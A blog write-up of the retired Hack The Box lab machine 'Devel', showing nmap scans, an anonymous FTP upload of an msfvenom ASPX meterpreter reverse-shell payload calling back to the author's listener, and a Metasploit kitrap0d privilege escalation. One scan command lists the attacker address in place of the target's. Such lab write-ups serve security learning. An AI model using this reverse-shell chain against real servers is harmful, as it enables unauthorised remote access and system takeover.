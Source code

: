 ```yaml
---
layout: post
title: Devel
subtitle: Hackthebox devel write up.
tags: [htb]
---
```


Hello Guys, This is my first HACK-THE-BOX writeup. This write-up is for the retired machine `DEVEL`.

So with out making any delay, we will start with a nmap scan. I always start with a full port scan using below nmap command.

```
nmap -p- --min-rate 5000 10.10.10.5 -oA nmap/fullport
```

![nmap scan](/assets/img/htb-devel/fullport.png)

Then we will go for another scan with `A` flag and for specific open ports.

```
nmap -p 21,80 -A 10.10.14.3 -oA nmap/portscan
```

![portscan](/assets/img/htb-devel/portscan.png)

So we can see here port 21/TCP - FTP and 80/TCP - HTTP are open.

For port 21, we can see that anonymous login is enabled. Let's login to port 21.

```
ftp 10.10.10.5
```

![ftp](/assets/img/htb-devel/ftp.png)

Checked the directory aspnet_client but there's nothing much useful.

Now we can check the port 80 and see if we find anything useful. Opened the site in a web browser and found a default IIS7 page. It contains an image, when we check the image name in source page it is welcome.png.

![http](/assets/img/htb-devel/http.png)

From the ftp directory listing we saw that there was a png file with name "wecome.png". Let's upload a file to ftp and see if we can access that from port 80. 

![ftptest](/assets/img/htb-devel/ftptest.png)

And yes, that was accessible. Now we can load a aspx meterpreter payload and try to get a reverseshell.

Let's generate a payload using msfvenom.
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.3 LPORT=9999 -f aspx > shell.aspx 
```

Now the payload can be uploaded to the server using ftp.

![ftpupload](/assets/img/htb-devel/ftpupload.png)

Let's open a metasploit listener for the payload. We have to set the options as per the msfvenom command.

![meterpreter](/assets/img/htb-devel/meterpreter.png)

Now try to access the `shell.aspx` page and boom. We got the meterpreter session open for us. 

![shell](/assets/img/htb-devel/shell.png)

But unfortunately we can't access the user directory. So we have to go for the privilege escalation. For that we can look for the `suggester` in metasploit. We can set the session to our open meterpreter session and hit `run`.

![suggested](/assets/img/htb-devel/suggested.png)

We can try the exploits and see if we get the root access. While trying each exploit, I found that `windows/local/ms10_015_kitrap0d` seems to be working fine for me and I got the root access.

![root](/assets/img/htb-devel/root.png)

Let's look for the flags.

![flags](/assets/img/htb-devel/flags.png)

That's all about this write-up. Thanks for reading.
